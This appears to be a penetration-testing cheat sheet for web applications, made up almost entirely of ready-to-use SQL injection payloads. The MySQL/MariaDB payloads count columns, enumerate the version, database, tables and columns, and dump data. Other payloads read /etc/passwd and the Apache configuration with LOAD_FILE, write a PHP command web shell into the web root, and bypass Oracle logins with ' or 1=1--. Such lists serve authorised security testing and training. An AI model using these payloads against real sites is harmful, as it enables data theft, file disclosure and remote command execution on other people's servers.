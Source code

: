 # Pentest Web
## SQL Injection - MySQL/MariaDB
-> get number columns
```
-1 order by 3;#
```

-> get version
```
-1 union select 1,2,version();#
```

-> get database name
```
-1 union select 1,2,database();#
```

-> get table name
```
-1 union select 1,2, group_concat(table_name) from information_schema.tables where table_schema="<database_name>";#
```

-> get column name
``` 
-1 union select 1,2, group_concat(column_name) from information_schema.columns where table_schema="<database_name>" and table_name="<table_name>";#
```

-> dump
```
-1 union select 1,2, group_concat(<column_names>) from <database_name>.<table_name>;#
```

### Webshell via SQLI - MySQL
```
LOAD_FILE('/etc/httpd/conf/httpd.conf')    
select "<?php system($_GET['cmd']);?>" into outfile "/var/www/html/shell.php";
```
 
### Reading Files via SQLI - MySQL
e.g.  
```
SELECT LOAD_FILE('/etc/passwd')
```

## Oracle SQL
-> Bypass Authentication
```
' or 1=1--
```

-> get number columns
```
' order by 3--
```
